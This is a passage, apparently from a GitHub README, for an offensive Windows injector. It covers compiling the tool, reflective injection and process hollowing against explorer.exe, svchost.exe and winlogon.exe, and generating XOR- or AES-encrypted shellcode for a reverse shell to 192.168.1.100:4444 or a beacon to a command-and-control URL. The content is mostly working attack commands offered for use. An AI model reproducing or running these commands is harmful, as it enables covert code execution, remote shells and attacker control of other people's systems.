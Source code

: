 - Visual Studio 2019+ or Build Tools
- Windows 10+ target system
- Administrator privileges (for some targets)

### Building

```bash
# Using build script
build_injector.bat

# Manual compilation
cl.exe /O2 /MT advanced_injector.cpp /link /OUT:injector.exe

# x64 specific
cl.exe /O2 /MT /D_WIN64 advanced_injector.cpp /link /OUT:injector_x64.exe

# x86 specific
cl.exe /O2 /MT advanced_injector.cpp /link /OUT:injector_x86.exe
```

### Basic Usage

```bash
# Reflective injection into explorer.exe
injector.exe explorer.exe reflective

# Process hollowing with svchost.exe
injector.exe svchost.exe hollowing

# Custom target process
injector.exe winlogon.exe reflective
```

## 🔧 Configuration

### Shellcode Generation

Use the shellcode generator to create encrypted payloads:

```bash
# Generate reverse shell shellcode
python shellcode_generator.py --type reverse_shell --ip 192.168.1.100 --port 4444 --arch x64 --encryption xor --format c

# Generate beacon shellcode
python shellcode_generator.py --type beacon --c2-url https://c2.example.com --arch x64 --encryption aes --format c

# Generate calc launcher (for testing)
python shellcode_generator.py --type calc --arch x64 --encryption xor --format c
```

### Encryption Keys
